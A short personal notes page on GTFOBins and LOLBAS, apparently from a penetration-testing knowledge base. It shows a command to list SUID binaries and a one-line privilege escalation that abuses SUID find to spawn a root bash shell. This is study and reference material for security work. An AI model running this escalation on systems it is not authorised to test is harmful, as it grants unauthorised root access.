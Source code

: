 # 💢 gtfobins lolbas

Tags: #💢 
Related to: 
See also: 
Previous: [[Post Exploitation]]

## Description

GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

## Usage Examples

### Exploit find misconfiguration

Find SUID files:

	find / -perm -4000 -ls 2>/dev/null

```
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/find
```

Exploit find SUID misconfigurationt: [^1]

	find . -exec /bin/bash -p \; -quit	// bash-5.0#

# References

[^1]: https://gtfobins.github.io/

https://lolbas-project.github.io/# // Windows